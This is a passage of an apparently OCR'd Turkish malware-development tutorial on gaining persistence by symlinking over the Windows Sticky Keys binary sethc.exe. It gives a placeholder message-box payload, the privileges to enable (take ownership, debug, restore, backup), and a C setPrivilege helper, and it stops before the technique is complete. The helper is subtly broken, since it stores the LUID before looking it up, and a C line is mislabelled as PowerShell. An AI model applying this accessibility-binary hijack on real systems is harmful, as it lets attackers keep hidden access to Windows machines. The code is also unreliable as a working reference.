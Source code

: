ancak gerçekte her şey biraz daha karmaşık.    

Diyelim ki elimizde bir "kötü amaçlı yazılım" var:    

```cpp
/*
* hack.c
* symlink kalıcılık
* yöntemi için "kötü amaçlı yazılım"
* yazar: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Ve meşru bir uygulama için sembolik bağlantı oluşturmak istiyorum:    

```powershell
const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
```

Öncelikle, izinlere ihtiyacımız var:    

```cpp
SE_TAKE_OWNERSHIP_NAME
SE_DEBUG_NAME
SE_RESTORE_NAME
SE_BACKUP_NAME
```

Bunun için sadece `setPrivilege` fonksiyonunu kullanın:    

```cpp
// yetki ayarla
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "%s yetkisi başarıyla etkinleştirildi :)\n" : 
  "%s yetkisi etkinleştirilemedi :(\n", priv);
  return res;
}
```
